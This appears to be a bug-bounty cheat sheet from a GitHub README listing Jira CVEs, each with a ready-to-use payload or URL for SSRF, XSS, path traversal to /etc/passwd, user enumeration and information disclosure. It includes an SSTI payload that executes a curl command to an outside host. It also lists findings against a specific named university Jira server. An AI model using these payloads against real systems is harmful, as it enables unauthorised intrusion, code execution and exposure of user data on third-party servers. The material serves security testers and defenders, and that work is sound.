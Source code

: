 # JIRA-Vulnerabilities

Index | Technique
--- | ---
**1** | CVE-2017-9506 (SSRF)
**2** | CVE-2018-5230 (XSS)
**3** | CVE-2018-20824 (XSS)
**4** | CVE-2019-3396 (Path Traversal)
**5** | CVE-2019-3402 (XSS)
**6** | CVE-2019-3403 (User Enumeration)
**7** | CVE-2019-8442 (Sensitive Information Disclosure)
**8** | CVE-2019-8449 (User Information Disclosure)
**9** | CVE-2019-8451 (SSRF)
**10** | CVE-2019-11581 (SSTI)
**11** | CVE-2020-14178 (Project Key Enumeration)
**12** | CVE-2020-14179 (Sensitive Information Disclosure)
**13** | CVE-2020-14181 (User Enumeration)
**14** | CVE-2020-36289 (Username Enumeration)
**15** | Tools
**16**| Reports

___
#### CVE-2017-9506 (SSRF)
```
Navigate to <JIRA_URL>/plugins/servlet/oauth/users/icon-uri?consumerUri=http://bing(.)com
```

##### CVE-2018-5230 (XSS)
```
http://<JIRA>/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert%28%27XSS%27%29%22%3E.vm
```
#### CVE-2018-20824 (XSS)
```
Navigate to <JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```

#### CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: JIRA
...

{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler(.)com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"},"body":""}}
```


#### CVE-2019-3402 (XSS)
```
Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

#### CVE-2019-3403 (User Enumeration)
```
Navigate to <Jira_URL>/rest/api/2/user/picker?query=<user_name_here> 
```

#### CVE-2019-8442 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

#### CVE-2019-8449 (User Information Disclosure)
```
Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```

#### CVE-2019-8451 (SSRF)
```
Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```

#### CVE-2019-11581 (SSTI)

```
a. Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
b. Try SSTI payload in subject and/or body:
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://xyz.burp(.)net').waitFor()
```
#### CVE-2020-14178 (Project Key Enumeration)

```
a. Navigate to <JIRA_URL>/browse.<project_key>
b. Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.

```
#### CVE-2020-14179 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa
```

#### CVE-2020-14181 (User Enumeration)

```
Navigate to <JIRA_URL>/secure/ViewUserHover.jspa?username=<uname>
```
#### CVE-2020-36289 (Username Enumeration)
```
Navigate to <JIRA_URL>/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin
```
```
 For target.atlassian(.)net, check this endpoints: 
/servicedesk/customer/user/signup [Able to login? Vuln:)]
/jira/projects [Can see projects? Vuln:) Now click on sign in and use OAuth]
```

```
jira-unauth-popular-filters:
https://<JIRA>/secure/ManageFilters.jspa?filterView=popular
```

```
jira-unauthenticated-dashboards:
https://<JIRA>/rest/api/2/dashboard?maxResults=100
```

```
Resolution found
/rest/api/2/resolution
```

```

Admin Project Dashboard Accessible
https://mtihelpdesk.eng.monash.edu/rest/menu/latest/admin

```

```
Project Group Found
https://mtihelpdesk.eng.monash.edu/rest/api/2/projectCategory?maxResults=100
```

```
Medium - Service Desk Signup Enable 
https://mtihelpdesk.eng.monash.edu/servicedesk/customer/user/signup
https://mtihelpdesk.eng.monash.edu/servicedesk/customer/user/signup
```

```
LOW - Query Componet Field
/secuure/QueryComponents!Jql.jspa?jql=
https://mtihelpdesk.eng.monash.edu/secure/QueryComponent!Jql.jspa?jql=

https://jira.atlassian.com/browse/JRASERVER-72003
```





https://jira.atlassian.com/browse/JRASERVER-71536

https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-8170/Atlassian-Jira.html

https://hackerone.com/reports/1061204






#### Tools

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-workflow.yaml) can be used to automate most of these CVEs Detection.
[Automation Script](https://github.com/MayankPandey01/Jira-Lens) 

#### Reports
* [https://hackerone.com/reports/632808](https://hackerone.com/reports/632808)
* [https://hackerone.com/reports/1003980](https://hackerone.com/reports/1003980)
* https://hackerone.com/reports/713900
* https://hackerone.com/reports/139970
* https://hackerone.com/reports/197726
#### Blog
[How i converted SSRF TO XSS in jira.](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
